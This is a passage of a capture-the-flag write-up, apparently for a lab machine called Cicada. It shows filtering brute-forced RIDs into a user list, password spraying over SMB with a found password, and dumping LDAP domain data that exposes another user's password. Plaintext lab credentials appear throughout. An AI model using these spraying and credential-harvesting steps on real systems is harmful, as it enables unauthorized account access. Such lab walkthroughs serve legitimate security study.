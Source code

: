 ><u>Note:</u> We could manually bruteforce for RID by using rpcclient, as shown in the [video walkthough](#video-walkthrough).

We execute the following command to get only the users of type `SidTypeUser`, as shown bellow:

```
$ cat rid-brute.txt | grep SidTypeUser | awk -F"\\" '{ print $2 }' | cut -d " " -f 1 > users.txt
```

Then, we perform password spraying over these users (`nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`), resulting in a valid account (`cicada.htb\michael.wrightson`):

![](assets/password_spraying_1.png)

However, with this account we are not able to get remote access:

![](assets/michael_winrm.png)


### Gather domain information

By using michael's account, we gather domain information with the `ldapdomaindump` tool:

```
$ ldapdomaindump -u "cicada.htb\michael.wrightson" -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

Reviewing the information provided in the `domain_users.html` file, there is a password for the user `david.orelious` in the "description column", as shown below:

>Just in case I forget my password is aRt$Lp#7t*VQ!3

![alt text](assets/ldapdomaindump.png)
